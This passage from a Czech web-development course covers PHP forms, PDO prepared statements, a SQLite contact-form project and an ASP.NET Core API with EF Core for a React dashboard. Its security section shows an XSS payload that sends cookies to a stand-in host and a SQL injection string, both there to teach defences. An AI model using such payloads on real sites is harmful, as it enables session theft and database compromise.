    $vek = 20;         // Integer (číslo)
    $jeAktivni = true; // Boolean
```
- **Spojování stringů (Concatenation):** Používá se tečka (`.`), nikoliv plus (`+`).
```php
    echo "Jméno: " . $jmeno . ", Věk: " . $vek;
```
- **Podmínky a cykly:** Jsou téměř identické jako v JS a C#.
```php
    if ($vek >= 18) {
        echo "Jste plnoletý.";
    } else {
        echo "Nejste plnoletý.";
    }
    
    for ($i = 0; $i < 5; $i++) {
        echo "Číslo: " . $i . "<br>"; // <br> pro HTML zalomení řádku
    }
```
- **Pole (Arrays):** Toto je klíčové. PHP má dva hlavní typy polí:
1. **Indexované pole** (jako v JS):
```php
        $ovoce = ["Jablko", "Banán", "Hruška"];
        echo $ovoce[1]; // Vypíše "Banán"
```
 2. **Asociativní pole** (jako Objekty v JS nebo Dictionary v C#):
```php
        $osoba = [
            "jmeno" => "Martin",
            "vek" => 30,
            "email" => "martin@web.cz"
        ];
        echo $osoba["email"]; // Vypíše "martin@web.cz"
```    
- **Cyklus `foreach`:** Nejpoužívanější cyklus pro procházení polí.
```php
    // Procházení asociativního pole
    foreach ($osoba as $klic => $hodnota) {
        echo $klic . ": " . $hodnota . "<br>";
    }
```
---
#### 6.3.4 Práce se soubory, odesílání formulářů
- PHP má vestavěné globální proměnné (tzv. "superglobals"), které jsou automaticky dostupné v každém skriptu. Pro práci s formuláři jsou nejdůležitější:
	- `$_GET`: Asociativní pole obsahující všechna data z URL query parametrů.
	- `$_POST`: Asociativní pole obsahující všechna data poslaná metodou POST.
	- `$_SERVER`: Pole s informacemi o serveru a požadavku (např. `$_SERVER["REQUEST_METHOD"]`).
- **Příklad:** Máme `formular.html` a `zpracuj.php`.
**`soubor: formular.html`**
```html
<form action="zpracuj.php" method="POST">
    <label for="jmeno">Jméno:</label>
    <input type="text" id="jmeno" name="uzivatelske_jmeno">
    
    <label for="email">Email:</label>
    <input type="email" id="email" name="uzivatelsky_email">
    
    <button type="submit">Odeslat</button>
</form>
```

**`soubor: zpracuj.php`**
```php
<?php
// Vždy je dobré zkontrolovat, jakou metodou skript někdo zavolal
if ($_SERVER["REQUEST_METHOD"] == "POST") {
    
    // 1. Získáme data z formuláře
    // Klíče v $_POST odpovídají atributům 'name' z HTML formuláře
    $jmeno = $_POST['uzivatelske_jmeno'];
    $email = $_POST['uzivatelsky_email'];

    // 2. BEZPEČNOST (XSS): Vždy ošetřit výstup!
    // htmlspecialchars() převede znaky jako < a > na neškodné entity
    $jmeno_bezpecne = htmlspecialchars($jmeno);
    $email_bezpecne = htmlspecialchars($email);

    // 3. Zpracování
    if (empty($jmeno) || empty($email)) {
        echo "Chyba: Musíte vyplnit všechna pole.";
    } else {
        echo "Děkujeme, " . $jmeno_bezpecne . ".<br>";
        
        // 4. Práce se soubory (zápis)
        $zaznam = "Nová registrace: $jmeno_bezpecne ($email_bezpecne)\n";
        
        // file_put_contents je jednoduchý způsob, jak zapsat do souboru
        // FILE_APPEND zajistí, že se data přidají na konec, nepřepíší ho
        file_put_contents("registrace.txt", $zaznam, FILE_APPEND);
        
        echo "Vaše data byla uložena.";
    }

} else {
    // Pokud někdo přistoupí na zpracuj.php přímo (metodou GET)
    echo "Tento skript slouží pouze ke zpracování formuláře.";
    // Často se sem dává přesměrování: header('Location: formular.html');
}
?>
```
---
#### 6.3.5 PHP + MySQL
- Připojení k databázím je jádrem PHP. Staré funkce `mysql_*` jsou zastaralé a nebezpečné. Moderní standard je objektové rozhraní **PDO (PHP Data Objects)**.
- PDO má dvě obrovské výhody:
	1. **Univerzální:** Stejné funkce používáte pro MySQL, PostgreSQL, SQLite atd.
	2. **Bezpečné:** Podporuje **prepared statements**, což je jediná spolehlivá ochrana proti SQL Injection.
```php
// 1. Připojovací údaje
$host = '127.0.0.1'; // localhost
$db_name = 'moje_databaze';
$username = 'root';
$password = 'moje_tajne_heslo';

// DSN - Data Source Name (specifikuje typ databáze a hosta/jméno)
$dsn = "mysql:host=$host;dbname=$db_name;charset=utf8";

try {
    // 2. Vytvoření instance PDO (pokus o připojení)
    // Toto je objekt, přes který budeme s databází komunikovat
    $pdo = new PDO($dsn, $username, $password);
    
    // Nastavíme PDO, aby v případě chyby vyhazovalo výjimky (lepší než tiché selhání)
    $pdo->setAttribute(PDO::ATTR_ERRMODE, PDO::ERRMODE_EXCEPTION);

    echo "Připojení k databázi proběhlo úspěšně.<br>";
    
    // 3. VKLÁDÁNÍ DAT (Bezpečně pomocí Prepared Statements)
    $jmeno_z_formulare = "Někdo cizí";
    $email_z_formulare = "cizi@email.cz";

    // Toto je šablona dotazu. :jmeno a :email jsou "placeholdery".
    $sql = "INSERT INTO users (name, email) VALUES (:jmeno, :email)";
    
    // Připravíme dotaz
    $stmt = $pdo->prepare($sql);
    
    // Spustíme dotaz a pošleme data odděleně od příkazu.
    // Databáze sama data bezpečně vloží do placeholderů.
    $stmt->execute([
        'jmeno' => $jmeno_z_formulare,
        'email' => $email_z_formulare
    ]);

    echo "Nový uživatel byl vložen.<br>";

    // 4. VÝBĚR DAT (Bezpečně pomocí Prepared Statements)
    $id_k_nacteni = 1;
    
    $stmt = $pdo->prepare("SELECT * FROM users WHERE id = :id");
    $stmt->execute(['id' => $id_k_nacteni]);
    
    // fetch() vrátí jeden řádek jako asociativní pole
    $uzivatel = $stmt->fetch(PDO::FETCH_ASSOC); 
    
    if ($uzivatel) {
        echo "Jméno uživatele s ID 1 je: " . htmlspecialchars($uzivatel['name']);
    } else {
        echo "Uživatel s ID 1 nenalezen.";
    }

} catch (PDOException $e) {
    // 5. Zachycení chyby
    // Pokud se připojení nebo dotaz nepodaří, skript nespadne, ale vypíše chybu.
    die("CHYBA: Připojení k databázi selhalo: " . $e->getMessage());
}
```
---
#### 6.3.6 Bezpečnost (SQL Injection, XSS)
- Toto je tak důležité, že to tu má vlastní sekci, i když jsme to už zmínili:
	1. **XSS (Cross-Site Scripting):** Útok, kdy útočník vloží do vaší stránky škodlivý JavaScript.
	    - **Problém:** `echo "Vítej, " . $_POST['jmeno'];`
	    - **Útočník pošle jméno:** `<script>document.location='http://hacker.cz/ukradni-cookie.php?c=' + document.cookie</script>`
	    - **Řešení:** **VŽDY** ošetřit veškerý výstup, který přišel od uživatele, pomocí `htmlspecialchars()`.
	    - **Správně:** `echo "Vítej, " . htmlspecialchars($_POST['jmeno']);`
	2. **SQL Injection (SQLi):** Útok, kdy útočník upraví SQL dotaz tak, aby provedl něco, co nemá (obešel přihlášení, smazal databázi).
	    - **Problém (NEBEZPEČNÉ!):** `$sql = "SELECT * FROM users WHERE jmeno = '" . $_POST['jmeno'] . "'";`
	    - **Útočník pošle jméno:** `' OR 1=1; --`
	    - **Výsledný dotaz:** `SELECT * FROM users WHERE jmeno = '' OR 1=1; --` (Vrátí VŠECHNY uživatele).
	    - **Řešení:** **NIKDY** neskládat dotazy pomocí spojování řetězců. **VŽDY** používat **Prepared Statements** (viz příklad s `PDO->prepare()`).
#### 6.3.7 Mini-projekt: jednoduchý kontakt formulář s uložením do DB
- **Cíl:** Vytvořit jednoduchou stránku pro zanechání vzkazu, která data bezpečně uloží do databáze.
- **Technologie:**
	- PHP
	- SQLite (je to jen jeden soubor, nemusíme instalovat MySQL server, stačí povolit `pdo_sqlite` v konfiguraci PHP)
	- HTML
- **Kroky:**
	1. **`index.php`:**
	    - Vytvořte jednoduchý HTML formulář (`<form method="POST">`) se třemi poli: `jmeno`, `email`, `vzkaz`.
	    - Ve stejném souboru, _nad_ HTML kódem, vložte PHP blok (`<?php ... ?>`).
	    - V tomto bloku zkontrolujte, zda `$_SERVER["REQUEST_METHOD"] == "POST"`.
	    - Pokud ano, proveďte Kroky 2 a 3.
	2. **`databaze.php` (lze vložit do `index.php`):**
	    - Napište kód, který se pomocí `new PDO("sqlite:vzkazy.db")` připojí k SQLite databázi (soubor `vzkazy.db` se vytvoří automaticky).
	    - Při prvním spuštění vytvořte tabulku: `CREATE TABLE IF NOT EXISTS vzkazy (id INTEGER PRIMARY KEY, jmeno TEXT, email TEXT, vzkaz TEXT, datum DATETIME);`
	3. **Zpracování v `index.php`:**
	    - Získejte data z `$_POST['jmeno']` atd.
	    - Proveďte základní validaci (nesmí být prázdná).
	    - Pomocí **PDO a prepared statement** (`INSERT INTO vzkazy...`) vložte data do databáze.
	    - Přesměrujte uživatele (pomocí `header('Location: index.php?status=ok');`), aby se formulář znovu neodeslal při obnovení stránky.
	4. **(Bonus) Zobrazení vzkazů:**
	    - Pod formulářem v `index.php` otevřete další PHP blok.
	    - Pomocí `PDO->query("SELECT * FROM vzkazy ORDER BY datum DESC")` načtěte všechny vzkazy.
	    - Pomocí cyklu `foreach` je vypište do HTML (nezapomeňte na `htmlspecialchars()` u každé hodnoty!).
---
- příklad
	- #### Kroky pro spuštění:
	1. **Vytvořte** soubor `index.php`.
	2. **Ujistěte se**, že má Váš server PHP povolenou extenzi `pdo_sqlite` (v `php.ini` - soubor naleznete pomocí `php --ini`).
	3. **Vložte** níže uvedený kód do souboru `index.php`.
	4. **Spusťte** lokální PHP server (např. příkazem `php -S localhost:8000` ve složce se souborem). 
`soubor: index.php`
```php
<?php
// --- KROK 2: PŘIPOJENÍ A INICIALIZACE DATABÁZE ---

$statusMessage = ''; // Pro zobrazení zpráv uživateli

try {
    // Připojíme se k SQLite databázi. Soubor 'vzkazy.db' se vytvoří v téže složce.
    $pdo = new PDO("sqlite:vzkazy.db");
    // Nastavíme, aby PDO v případě chyby vyhazovalo výjimky
    $pdo->setAttribute(PDO::ATTR_ERRMODE, PDO::ERRMODE_EXCEPTION);

    // Vytvoříme tabulku, POKUD ještě neexistuje
    $pdo->exec("CREATE TABLE IF NOT EXISTS vzkazy (
        id INTEGER PRIMARY KEY AUTOINCREMENT,
        jmeno TEXT NOT NULL,
        email TEXT NOT NULL,
        vzkaz TEXT,
        datum DATETIME NOT NULL
    )");

} catch (PDOException $e) {
    // Pokud selže připojení k DB, ukončíme skript
    die("Chyba připojení k databázi: " . $e->getMessage());
}

// --- KROK 1 & 3: ZPRACOVÁNÍ FORMULÁŘE ---

// Zkontrolujeme, zda byl formulář odeslán metodou POST
if ($_SERVER["REQUEST_METHOD"] == "POST") {
    
    // Získáme data z formuláře
    $jmeno = $_POST['jmeno'];
    $email = $_POST['email'];
    $vzkaz = $_POST['vzkaz'];
    $datum = date('Y-m-d H:i:s'); // Aktuální čas

    // Krok 3: Základní validace
    if (empty($jmeno) || empty($email) || empty($vzkaz)) {
        $statusMessage = "Chyba: Všechna pole jsou povinná!";
    } else {
        
        // Krok 3: Vložení do databáze pomocí PREPARED STATEMENT
        try {
            $sql = "INSERT INTO vzkazy (jmeno, email, vzkaz, datum) VALUES (:jmeno, :email, :vzkaz, :datum)";
            $stmt = $pdo->prepare($sql);
            
            // Bezpečně svážeme parametry
            $stmt->execute([
                ':jmeno' => $jmeno,
                ':email' => $email,
                ':vzkaz' => $vzkaz,
                ':datum' => $datum
            ]);

            // Krok 3: Přesměrování (Post-Redirect-Get pattern)
            // Tímto zabráníme znovuoeslání formuláře při obnovení stránky (F5)
            header("Location: index.php?status=ok");
            exit; // Vždy ukončíme skript po přesměrování

        } catch (PDOException $e) {
            $statusMessage = "Chyba při ukládání do databáze: " . $e->getMessage();
        }
    }
}

// Zpráva pro uživatele po úspěšném přesměrování
if (isset($_GET['status']) && $_GET['status'] == 'ok') {
    $statusMessage = "Váš vzkaz byl úspěšně odeslán. Děkujeme!";
}

// --- KROK 4: NAČTENÍ VZKAZŮ PRO ZOBRAZENÍ ---
// Tato část se provede vždy, když se stránka načte (i po přesměrování)
try {
    $stmt = $pdo->query("SELECT jmeno, email, vzkaz, datum FROM vzkazy ORDER BY datum DESC");
    $vzkazy = $stmt->fetchAll(PDO::FETCH_ASSOC);
} catch (PDOException $e) {
    $vzkazy = []; // Pokud nastane chyba, zobrazíme prázdné pole
    $statusMessage = "Chyba při načítání vzkazů: " . $e->getMessage();
}

?>
<!DOCTYPE html>
<html lang="cs">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Kontaktní formulář (PHP + SQLite)</title>
    <style>
        body { font-family: Arial, sans-serif; max-width: 800px; margin: 20px auto; padding: 20px; background-color: #f4f4f4; }
        form div { margin-bottom: 15px; }
        label { display: block; margin-bottom: 5px; font-weight: bold; }
        input[type="text"], input[type="email"], textarea { width: 100%; padding: 8px; border: 1px solid #ccc; border-radius: 4px; box-sizing: border-box; }
        button { background-color: #007bff; color: white; padding: 10px 15px; border: none; border-radius: 4px; cursor: pointer; }
        button:hover { background-color: #0056b3; }
        .status-ok { color: green; font-weight: bold; }
        .status-err { color: red; font-weight: bold; }
        .vzkaz { background-color: #fff; border: 1px solid #ddd; padding: 15px; margin-top: 20px; border-radius: 4px; }
        .vzkaz small { color: #777; }
    </style>
</head>
<body>

    <h1>Kontaktní formulář</h1>
    <p>Zanechte nám vzkaz, který se bezpečně uloží do SQLite databáze.</p>

    <?php if (!empty($statusMessage)): ?>
        <p class="<?= (isset($_GET['status']) && $_GET['status'] == 'ok') ? 'status-ok' : 'status-err'; ?>">
            <?php echo htmlspecialchars($statusMessage); ?>
        </p>
    <?php endif; ?>

    <form action="index.php" method="POST">
        <div>
            <label for="jmeno">Jméno:</label>
            <input type="text" id="jmeno" name="jmeno" required>
        </div>
        <div>
            <label for="email">E-mail:</label>
            <input type="email" id="email" name="email" required>
        </div>
        <div>
            <label for="vzkaz">Vzkaz:</label>
            <textarea id="vzkaz" name="vzkaz" rows="5" required></textarea>
        </div>
        <div>
            <button type="submit">Odeslat vzkaz</button>
        </div>
    </form>

    <h2>Přijaté vzkazy (<?php echo count($vzkazy); ?>)</h2>
    
    <?php if (empty($vzkazy)): ?>
        <p>Zatím nebyly přijaty žádné vzkazy.</p>
    <?php else: ?>
        <?php foreach ($vzkazy as $vzkaz): ?>
            <div class="vzkaz">
                <p><strong><?php echo htmlspecialchars($vzkaz['jmeno']); ?></strong> (<?php echo htmlspecialchars($vzkaz['email']); ?>)</p>
                <small>Dne: <?php echo date("d.m.Y H:i", strtotime($vzkaz['datum'])); ?></small>
                <hr>
                <p><?php echo nl2br(htmlspecialchars($vzkaz['vzkaz'])); // nl2br() zachová zalomení řádků ?></p>
            </div>
        <?php endforeach; ?>
    <?php endif; ?>

</body>
</html>
```
- Ukázka animace
	- 
---
### 6.4 ASP.NET Core (Backend postavený na C#)
- Vítejte v "domácím" prostředí pro C# vývojáře. Zatímco Node.js je skvělý pro rychlé, I/O-intenzivní operace v JavaScriptu, **ASP.NET Core** je vlajková loď Microsoftu pro budování **vysoce výkonných, robustních a škálovatelných** webových aplikací a API.
- Je to kompletně přepsaná, open-source a multiplatformní (běží na Windows, Linuxu, macOS) verze staršího ASP.NET. Je navržen pro moderní cloudový a kontejnerizovaný svět.
---
#### 6.4.1 Co je ASP.NET a jeho role
- ASP.NET Core není jen "framework" jako Express. Je to celá **platforma** navržená s důrazem na výkon a architektonickou čistotu.
- Když **vytvoříme** projekt, **dostaneme** rovnou:
	1. **Vestavěný webový server (Kestrel):** Extrémně rychlý server, který běží přímo v **naší** aplikaci. **Nemusíme** instalovat nic navíc (jako Apache pro PHP).
	2. **DI (Dependency Injection) kontejner:** "Srdce" každé moderní .NET aplikace. Systém, který se stará o vytváření a dodávání služeb tam, kde jsou potřeba (o tom si detailněji **řekneme** později).
	3. **Systém Middleware:** Řetězec funkcí, které zpracovávají příchozí požadavek HTTP (např. CORS, ověřování, směrování).
- ASP.NET Core umí stavět:
	- **Tradiční aplikace (MVC, Razor Pages):** Aplikace, které generují HTML na serveru.
	- **Moderní API Backendy (Web API):** Aplikace, které vrací pouze data (typicky JSON) pro klienty, jako je náš React Dashboard. **Na toto se zaměříme.**
---
#### 6.4.2 První "Hello World" (Minimal API)
- Nejjednodušší způsob, jak začít, je použít tzv. **Minimal API**. Je to přímý ekvivalent pro `app.get` z Expressu.
- **1. Založení projektu:** Otevřeme terminál a **spustíme** nejminimalističtější šablonu:
```bash
# 'web' je minimalistická šablona
dotnet new web -n MinimalApi
cd MinimalApi
```
- **2. Anatomie `Program.cs` (Minimalistická verze):**
	- Vše, co **potřebujeme**, je v jednom souboru, který spustí server a definuje endpoint.
```c#
// 1. Vytvoření "buildera" aplikace – připravuje systém
var builder = WebApplication.CreateBuilder(args);

// 2. Sestavení aplikace – vytvoří spustitelnou instanci
var app = builder.Build();

// 3. Definuje endpoint (ekvivalent app.get('/', ...))
// MapGet říká: Na cestě "/" čekej na GET požadavek
app.MapGet("/", () => "Ahoj světe! Toto je můj Minimal API.");

// 4. Spuštění serveru
app.Run();
```
---
#### 6.4.3 Architektura: Proč jen `Program.cs` nestačí (Přechod na Controllery)
- Stejně jako v Expressu se nechceme utopit v jednom souboru s routami. Pro 50 endpointů **použijeme** **Controller** – C# třídu, která sdružuje všechny související API endpointy.
- Abychom **mohli** Controllery používat, **musíme** v `Program.cs` přidat podporu pro **Routing** a **Controllery** do **DI kontejneru**.
---
#### 6.4.4 Tvorba API pomocí Controllerů (Základy)
- Nyní **použijeme** šablonu, která automaticky přidá podporu pro Controllery:
```bash
dotnet new webapi -n DashboardApi
cd DashboardApi
```
- **1. Úprava `Program.cs` (pro Controllery):**
```c#
var builder = WebApplication.CreateBuilder(args);

// REGISTRACE SLUŽEB do DI kontejneru
builder.Services.AddControllers(); // Povoluje používání Controllerů
// ... (další služby) ...

var app = builder.Build();

// KONFIGURACE PIPELINE (Middleware)
// ...
app.MapControllers(); // Toto najde všechny naše Controller třídy a namapuje jejich endpointy
app.Run();
```
- **2. Anatomie Controlleru a Endpointu (Detailně):**
	- Vytvoříme třídu, která bude zpracovávat požadavky na cestě `/api/users`.
**`soubor: Controllers/UsersController.cs`**
```c#
using Microsoft.AspNetCore.Mvc;

namespace DashboardApi.Controllers
{
    // [ApiController]: Říká .NET, že tato třída je API Controller.
    [ApiController] 
    
    // [Route("api/[controller]")]: Definuje URL cestu /api/Users.
    [Route("api/[controller]")] 
    public class UsersController : ControllerBase // Dědíme z ControllerBase, získáme metody Ok(), NotFound()
    {
        private static readonly List<User> _users = new List<User>
        {
            // Simulovaná data (než připojíme DB)
            new User { Id = 1, Name = "Martin", Email = "martin@api.cz" }
        };
        // Metoda pro GET /api/users
        [HttpGet] 
        public ActionResult<List<User>> GetUsers()
        {
            // ActionResult<T> nám umožňuje vrátit buď data, NEBO stavový kód (200, 404 atd.)
            return Ok(_users); // Vrátí status 200 OK a převede data na JSON.
        }
        // Metoda pro GET /api/users/{id}
        [HttpGet("{id}")] // "{id}" se mapuje na parametr 'id'
        public ActionResult<User> GetUserById(int id)
        {
            var user = _users.Find(u => u.Id == id);
            
            if (user == null)
            {
                return NotFound(); // Vrátí status 404 Not Found
            }
            return Ok(user);
        }
        // Metoda pro POST /api/users
        [HttpPost]
        // [FromBody] není nutné, ale je dobré pro přehlednost. 
        // ASP.NET automaticky převede JSON z těla na objekt User.
        public ActionResult<User> CreateUser([FromBody] User newUser) 
        {
            // ... logika ...
            
            // Vrátí status 201 Created a hlavičku 'Location'
            return CreatedAtAction(nameof(GetUserById), new { id = newUser.Id }, newUser); 
        }
    }
    // Třída User by byla ve složce Models
    public class User
    {
        public int Id { get; set; }
        public string Name { get; set; }
        public string Email { get; set; }
    }
}
```
---
#### 6.4.5 Co je Dependency Injection (DI)? (Klíčový koncept)
- **Dependency Injection (DI)** je ústřední architektonický vzor v .NET. Místo toho, abychom **si** ve třídě ručně **vytvářeli** všechny služby, které **potřebujeme** (databázové připojení, logger), **požádáme** o ně.
- **Jak to funguje?**
	1. **Registrace:** V souboru `Program.cs` **řekneme** systému: "Když někdo požádá o `ILogger`, **dodej** mu instanci třídy `ConsoleLogger`."
	2. **Vstřikování:** **Náš** Controller si v konstruktoru **řekne** o to, co potřebuje. Systém, kterému říkáme **DI Kontejner**, mu to automaticky **doručí** (vstříkne).
```c#
// Příklad: Náš Controller si vyžádá databázi
public class UsersController 
{
    private readonly AppDbContext _context; // Bude obsahovat instanci DB

    // Systém nám to automaticky "vstříkne" do konstruktoru
    public UsersController(AppDbContext context) 
    {
        _context = context; // Můžeme ji rovnou použít
    }
}
```
- DI **nám** umožňuje mít **čistý, dobře testovatelný kód**, kde se Controller stará jen o HTTP logiku, nikoliv o vytváření složitých objektů.
---
#### 6.4.6 Připojení k databázi (Entity Framework Core)
- Nyní **použijeme** DI k připojení databáze. **Využijeme** **Entity Framework Core (EF Core)**, což je **ORM (Object-Relational Mapper)**, který **nám** umožňuje pracovat s databází pomocí C# objektů namísto SQL dotazů.
- **1. Instalace balíčků:** Pro vývoj **použijeme** SQLite – databáze v jednom souboru:
```bash
dotnet add package Microsoft.EntityFrameworkCore
dotnet add package Microsoft.EntityFrameworkCore.Sqlite
dotnet add package Microsoft.EntityFrameworkCore.Design
```
- **2. Vytvoření `DbContext`:** Třída, která říká EF Core, jak má mapovat **naše** C# objekty na databázové tabulky.
```c#
// soubor: Data/AppDbContext.cs
using Microsoft.EntityFrameworkCore; 

namespace DashboardApi.Data
{
    public class AppDbContext : DbContext
    {
        public AppDbContext(DbContextOptions<AppDbContext> options) : base(options) { }
        public DbSet<User> Users { get; set; } // Mapuje třídu User na tabulku Users
    }
}
```
- **3. Registrace v DI a konfigurace:** **Musíme** říct DI Kontejneru, jak se k databázi připojit.
**`soubor: Program.cs` (Doplnění)**
```c#
using DashboardApi.Data; 
using Microsoft.EntityFrameworkCore; 

var builder = WebApplication.CreateBuilder(args);

// Načteme připojovací řetězec z appsettings.json
var connectionString = builder.Configuration.GetConnectionString("DefaultConnection");

// Registrujeme DbContext jako službu a říkáme, že má použít SQLite
builder.Services.AddDbContext<AppDbContext>(options =>
    options.UseSqlite(connectionString)
);

// ...
```
- **(A `appsettings.json` musí obsahovat sekci `ConnectionStrings` s řetězcem `DefaultConnection: "Data Source=mojedatabaze.db"`)**
- **4. Migrace a použití:** Nyní **stačí** vygenerovat a aplikovat schéma databáze (vytvoří se soubor `mojedatabaze.db`).
```bash
dotnet ef migrations add InitialCreate
dotnet database update
```
- A do Controlleru **si AppDbContext vstříkneme** (viz 6.4.5), abychom ho **mohli** používat pro dotazy (např. `await _context.Users.ToListAsync()`).
---
#### 6.4.7 Ověřování (Identity)
- ASP.NET Core má vestavěný systém **Identity**, který **nám** ušetří měsíce práce s implementací zabezpečení, správou uživatelů, hesel (hashování) a JWT tokenů.
- **Použijeme** Identity k automatickému vytvoření všech potřebných endpointů (`/register`, `/login` atd.).
**`soubor: Program.cs` (Doplnění pro Identity)**
```c#
// ... (Registrace DbContextu) ...
// ...

// 1. Přidáme podporu pro Identity, která bude používat náš AppDbContext
builder.Services.AddIdentityApiEndpoints<IdentityUser>()
    .AddEntityFrameworkStores<AppDbContext>();

// ...

var app = builder.Build();

// ...

// 2. Toto automaticky vytvoří všechny JWT endpointy
app.MapIdentityApi<IdentityUser>(); 

app.MapControllers();
app.Run();
```
- **Ochrana endpointu:** **Nyní můžeme** chránit jakýkoliv endpoint pouhým atributem `[Authorize]`.
```c#
// soubor: Controllers/UsersController.cs (Doplnění)
using Microsoft.AspNetCore.Authorization; 

public class UsersController : ControllerBase
{
    // ...
    // GET /api/users
    [HttpGet]
    [Authorize] // K tomuto se dostane jen přihlášený uživatel s JWT tokenem
    public async Task<ActionResult<List<User>>> GetUsers()
    {
        // ...
        return Ok(users);
    }
}
```
---
#### 6.4.8 Mini-Projekt: Backend API pro React Dashboard
- Mise je jasná: **Napojit Váš** existující React Dashboard na toto nové C# API.
- **Cíl:** Nahradit `jsonplaceholder.typicode.com/users` **Vaším** vlastním `http://localhost:5079/api/users`.
- **Kroky:**
	1. **Backend:** **Vytvořte** projekt `DashboardApi` a **implementujte** sekce 6.4.4 a 6.4.6 (Controllery a DB s EF Core).
	2. **Ujistěte se**, že **máte** model `User.cs` se správnými poli (`Id`, `Name`, `Email`, **`Phone`** - **přidejte** `Phone` do modelu).
	3. **Vytvořte** novou migraci (`dotnet ef migrations add AddPhoneToUser`) a **aktualizujte** databázi (`dotnet database update`).
	4. **Přidejte si** do databáze pár testovacích uživatelů.
	5. **Nakonfigurujte CORS** v `Program.cs`, aby povoloval volání z **Vašeho** frontendu (`http://localhost:5173`).
	6. **Spusťte** backend pomocí `dotnet run`. **Ověřte** v prohlížeči `http://localhost:5079/api/users` to že vrací **Vaše** data.
	7. **Frontend:** **Otevřete** React projekt (`react-dashboard`).
	8. **Běžte** do `src/pages/Users.jsx`.
	9. **Změňte** `useEffect` tak, aby volal **Vaše** lokální API:
    ```javascript
    // ... v Users.jsx ...
    useEffect(() => {
        const fetchUsers = async () => {
            try {
                // Měníme URL na naše lokální C# API!
                const response = await fetch('http://localhost:5079/api/users');
    // ... zbytek kódu zůstává stejný ...
    ```
	10. **Spusťte** oba projekty! (Backend v jednom terminálu, frontend v druhém). **Váš** React Dashboard si nyní bere data přímo z **Vaší** C# ASP.NET Core aplikace.
---
 - Příklad
- **Vytvoření projektu a instalace balíčků**
- Otevřeme terminál a **spustíme** následující příkazy pro vytvoření složky a instalaci potřebných knihoven pro databázi (Entity Framework Core a ovladač SQLite):
```bash
# 1. Vytvoření nové webapi aplikace
dotnet new webapi -n DashboardApi
cd DashboardApi

# 2. Instalace balíčků pro SQLite a Migrace
dotnet add package Microsoft.EntityFrameworkCore.Sqlite
dotnet add package Microsoft.EntityFrameworkCore.Design
```
- **Struktura dat (Model)**
- Vytvoříme složku `Models` a v ní soubor `User.cs`. Zde definujeme strukturu dat, která bude uložena v databázi a posílána do Reactu.
**`soubor: Models/User.cs`**
```c#
namespace DashboardApi.Models
{
    public class User
    {
        public int Id { get; set; }
        public string Name { get; set; }
        public string Email { get; set; }
        public string? Phone { get; set; } // Přidání Phone pro shodu s React dashboardem
    }
}
```
- **Konfigurace databáze (DbContext)**
- Vytvoříme složku `Data` a v ní soubor `AppDbContext.cs`. Tato třída propojí náš C# model s databázovou tabulkou.
**`soubor: Data/AppDbContext.cs`**
```c#
using DashboardApi.Models; 
using Microsoft.EntityFrameworkCore; 

namespace DashboardApi.Data
{
    public class AppDbContext : DbContext
    {
        public AppDbContext(DbContextOptions<AppDbContext> options) : base(options) { }
        
        // Definuje tabulku 'Users' v databázi
        public DbSet<User> Users { get; set; } 
    }
}
```
- **Připojovací řetězec**
- Aby aplikace věděla, kam databázi uložit, **přidejte** do konfiguračního souboru připojovací řetězec.
**`soubor: appsettings.json`**
```json
{
  "Logging": {
    "LogLevel": {
      "Default": "Information",
      "Microsoft.AspNetCore": "Warning"
    }
  },
  "AllowedHosts": "*",
  "ConnectionStrings": {
    // Definujeme název souboru pro SQLite databázi
    "DefaultConnection": "Data Source=dashboard.db" 
  }
}
```
- **Hlavní konfigurace, CORS a Seedování dat**
- Upravíme soubor `Program.cs`. Zde **provedeme** Dependency Injection (DI) pro DB Context, nastavíme CORS pro komunikaci s Reactem a vložíme testovací data (Seedování).
**`soubor: Program.cs`**
```c#
using DashboardApi.Data;  
using DashboardApi.Models;  
using Microsoft.EntityFrameworkCore;  
  
var builder = WebApplication.CreateBuilder(args);  
// Registrace služeb 
builder.Services.AddControllers();  

// Registrace DB (SQLite) pomocí připojovacího řetězce  
var connectionString = builder.Configuration.GetConnectionString("DefaultConnection") ?? "Data Source=dashboard.db";  
builder.Services.AddDbContext<AppDbContext>(options =>  
    options.UseSqlite(connectionString));  

// Konfigurace CORS  
const string ReactAppPolicy = "_reactAppPolicy";  
builder.Services.AddCors(options =>  
{  
    options.AddPolicy(name: ReactAppPolicy, policy =>  
    {  
        policy.WithOrigins("http://localhost:5173") // Povoluje volání z Reactu  
            .AllowAnyHeader()  
            .AllowAnyMethod();  
    });  
});  
  
var app = builder.Build();  
  
// Middleware    
app.UseHttpsRedirection();  
  
// Aktivace CORS middleware  
app.UseCors(ReactAppPolicy);  
app.UseAuthorization();  
app.MapControllers();  
  
// Vložení testovacích uživatelů při startu  
using (var scope = app.Services.CreateScope())  
{  
    var context = scope.ServiceProvider.GetRequiredService<AppDbContext>();  
    // Zajistíme, že databáze existuje a má aktuální schéma  
    context.Database.Migrate();   
    if (!context.Users.Any())  
    {  
        context.Users.AddRange(  
            new User { Name = "Martin Novan (C#)", Email = "martin@api.cz", Phone = "123-456-789" },  
            new User { Name = "Jana Nová (C#)", Email = "jana@api.cz", Phone = "987-654-321" },  
